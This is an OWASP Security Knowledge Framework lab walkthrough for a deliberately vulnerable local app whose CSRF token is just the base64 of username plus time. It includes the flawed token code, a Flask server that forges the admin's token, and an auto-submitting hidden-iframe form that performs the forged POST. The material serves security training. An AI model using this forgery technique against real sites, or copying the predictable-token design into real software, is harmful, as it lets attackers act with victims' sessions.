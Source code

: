 # CSRF - Weak

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:csrf-weak
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csrf-weak
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](../../.gitbook/assets/nodejs/CSRF-weak/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](../../.gitbook/assets/nodejs/CSRF-weak/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](../../.gitbook/assets/nodejs/CSRF-weak/3.png)

Also we can see that the application is using a csrf_token

```html
    <form method="post" action="/update">
        <input type="hidden" class="form-control" name="csrf_token" value="<%=csrf_token %>">
        <input type="text" class="form-control" name="color" placeholder="favorite color"/><br/>
        <button class="btn btn-primary" type="submit">Submit Button</button></div>
    </form>
```

Looks like it's Base64 encoded, try decode it.

![](../../.gitbook/assets/nodejs/CSRF-weak/4.png)

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```python
    time = strftime("%H:%M", gmtime())
    csrf = request.form['username'] + time
    session['csrf_token'] = base64.b64encode(csrf.encode())
    csrf_token = str(session['csrf_token'], 'utf-8')
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following express application:

```python
import base64
from time import gmtime, strftime
from flask import Flask, request, url_for, render_template, redirect, make_response

app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    time = strftime("%H:%M", gmtime())
    csrf = "admin" + time
    csrf_raw = base64.b64encode(csrf.encode())
    csrf_token = str(csrf_raw, 'utf-8')
    return render_template("evil.html", csrf_token = csrf_token)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.

```text
$ pip3 install flask
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="csrf_token" value="<%= csrf_token %>" />
  <input type="hidden" name="color" value="Hackzord!" />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python3 evil_server.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

![](../../.gitbook/assets/CSRF-weak-2.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](../../.gitbook/assets/nodejs/CSRF-weak/6.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}

